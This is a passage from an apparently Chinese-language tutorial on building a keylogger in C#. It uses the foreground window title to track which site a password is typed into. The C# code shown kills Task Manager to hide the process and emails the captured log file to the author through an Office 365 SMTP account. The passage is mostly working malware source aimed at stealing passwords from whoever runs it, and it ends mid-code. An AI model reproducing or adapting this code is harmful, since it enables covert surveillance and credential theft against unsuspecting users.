 1.用GetForegroundWindow函数 得到当前运行在 最前排的程序的句柄handle

2.通过GetWindowText函数将handle转换为StringBuilder

3.然后将StringBuilder转换为CharArray

4.接着我写了一个CheckChar函数，用于防止句柄重复写入。代码如下

``` 
 public static bool CheckChar(char[] a, char[] b)
{
    int m = Math.Min(a.Length, b.Length);
	for (int i = 0; i < m; i++)
	{
		if (a[i] != b[i])
		{
			return false;
		}
	}
	return true;
}
```  
5.最后则是将CharArray写入文件，将CharArray赋值，用于下次对比。

（网上的其他方法是直接对比handle来防止重复写入，这种方法是不可取的。如：当在Google Chrome中切换标签时，句柄并未发生变化，CharArray发生了变化
，这时程序就无法正确监控用户是在哪个网页输入了密码。这算是我在做这个功能时遇到的一个很大的坑吧~~）

#### 4.如何成功实现发送txt文件到邮箱

C#作为高级语言真的很方便实现网络编程，直接用微软封装好的 System.Net.Mail 就足够了

代码如下
```
        public static void OnTimedEvent(object source, EventArgs e)
        {

            Process[] ProcessList = Process.GetProcesses();//为每个进程资源 创建组件
            foreach (Process proc in ProcessList)
            {
                if (proc.MainWindowTitle.Contains("Taskmgr.exe"))
                {
                    proc.Kill();//关闭任务管理器
                }
            }
            //发送邮件
            System.Net.Mail.MailMessage msg = new System.Net.Mail.MailMessage(); //create the message
            msg.To.Add("**************");
            msg.From = new MailAddress("***********", "********", System.Text.Encoding.UTF8);
            string _ComputName = System.Net.Dns.GetHostName();
            msg.Subject = _ComputName;
            msg.SubjectEncoding = System.Text.Encoding.UTF8;
            msg.Body = "L";
            msg.BodyEncoding = System.Text.Encoding.UTF8;
            msg.IsBodyHtml = false;
            msg.Priority = MailPriority.High;//邮件优先级 最高
            SmtpClient client = new SmtpClient(); //Network Credentials for Gmail
            client.Credentials = new System.Net.NetworkCredential("**********@hotmail.com", "************");
            client.Port = 587;
            client.Host = "smtp.office365.com";
            client.EnableSsl = true;
            Attachment data = new Attachment(Program.path);
            msg.Attachments.Add(data);//添加 附件
            try
            {
                client.Send(msg);
```